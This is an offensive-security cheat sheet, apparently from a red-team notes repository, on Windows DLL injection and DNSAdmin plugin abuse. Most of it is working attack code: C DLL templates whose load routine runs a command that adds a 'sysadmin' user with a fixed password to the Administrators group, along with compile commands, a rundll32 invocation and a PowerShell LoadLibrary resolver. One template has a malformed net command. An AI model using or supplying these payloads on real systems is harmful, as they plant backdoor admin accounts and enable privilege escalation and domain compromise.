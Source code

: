 # DLL Injection

## WinAPI

```c
#include <stdlib.h>
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
	    // add payload
        system("cmd.exe /k net user sysadmin Password1234! /add & net localgroup Administrators sysadmin /add");
        ExitProcess(0);
    }
    return TRUE;
}
```

A long variant of DLL template payload.

```c
#include <stdlib.h>
#include <windows.h>

BOOL WINAPI DllMain(
    HINSTANCE hinstDLL,  // handle to DLL module
    DWORD fdwReason,     // reason for calling function
    LPVOID lpReserved) { // reserved
    // Perform actions based on the reason for calling.
    switch(fdwReason) { 
        case DLL_PROCESS_ATTACH:
         system("cmd /c net user <username> <password> /add /y & net user localgroup \"<group_name>\" \"<username>\" /add /y")
            break;
        case DLL_THREAD_ATTACH:
         // Do thread-specific initialization.
            break;
        case DLL_THREAD_DETACH:
         // Do thread-specific cleanup.
            break;
        case DLL_PROCESS_DETACH:
         // Perform any necessary cleanup.
            break;
    }
    // Successful. If this is FALSE, the process will be terminated eventually
    // https://docs.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-entry-point-function#entry-point-function-return-value
    return TRUE;  
}
```

```
$ x86_64-w64-mingw32-gcc -shared -o payload.dll payload.c
```

Loads a dynamic-link library (DLL) module into the address space of the calling process.

```c
#include <windows.h>
#include <libloaderapi.h>

#pragma comment(lib, "kernel32.lib")

LoadLibrary
LoadLibraryA
```

```
$ x86_64-w64-mingw32-gcc -l kernel32 -o payload.exe payload.c
```

### DNSAdmin

```c
#include <stdlib.h>
#include <windows.h>

EXTERN_DLL_EXPORT int DnsPluginInitialize(PVOID pDnsAllocateFunction, PVOID pDnsFreeFunction) {
	// add payload
	system("cmd.exe /k net user sysadmin Password1234! /add & net localgroup Administrators sysadmin /add");
	return 0;
}

EXTERN_DLL_EXPORT int DnsPluginCleanUp() {
	return 0;
}

EXTERN_DLL_EXPORT int DnsPluginQuery(PVOID a1, PVOID a2, PVOID a3, PVOID a4) {
	return 0;
}
```

```
C:\> rundll32.exe .\payload.dll,DnsPluginInitialize
```

## PowerShell

```powershell
$Win32Functions = New-Object System.Object

$LoadLibraryAddress = Get-ProcAddress kernel32.dll LoadLibraryA
$LoadLibraryDelegate = Get-DelegateType @([String]) ([IntPtr])
$LoadLibrary = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($LoadLibraryAddress, $LoadLibraryDelegate)
$Win32Functions | Add-Member -MemberType NoteProperty -Name LoadLibrary -Value $LoadLibrary

$FreeLibraryAddress = Get-ProcAddress kernel32.dll FreeLibrary
$FreeLibraryDelegate = Get-DelegateType @([IntPtr]) ([Bool])
$FreeLibrary = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($FreeLibraryAddress, $FreeLibraryDelegate)
$Win32Functions | Add-Member -MemberType NoteProperty -Name FreeLibrary -Value $FreeLibrary
```

---
## References

### Tenouk

- [Tenouk: Dynamic Link Library - Part 1](https://www.tenouk.com/ModuleBB.html)

- [Tenouk: Dynamic Link Library - Part 2](https://www.tenouk.com/ModuleCC.html)

- [Tenouk: Windows DLL - A Supplementary Note](https://www.tenouk.com/cbbccfunction.html)

### Hacktricks

- [Hacktricks: Privileged Groups](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges.html)

### Red Team Notes

- [Red Team Notes: Executing Code as a Control Panel Item through an Exported Cplapplet Function](https://www.ired.team/offensive-security/code-execution/executing-code-in-control-panel-item-through-an-exported-cplapplet-function)

- [Red Team Notes: Code Execution through Control Panel Add-ins](https://www.ired.team/offensive-security/code-execution/code-execution-through-control-panel-add-ins)

- [Red Team Notes: From DnsAdmins to SYSTEM to Domain Compromise](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)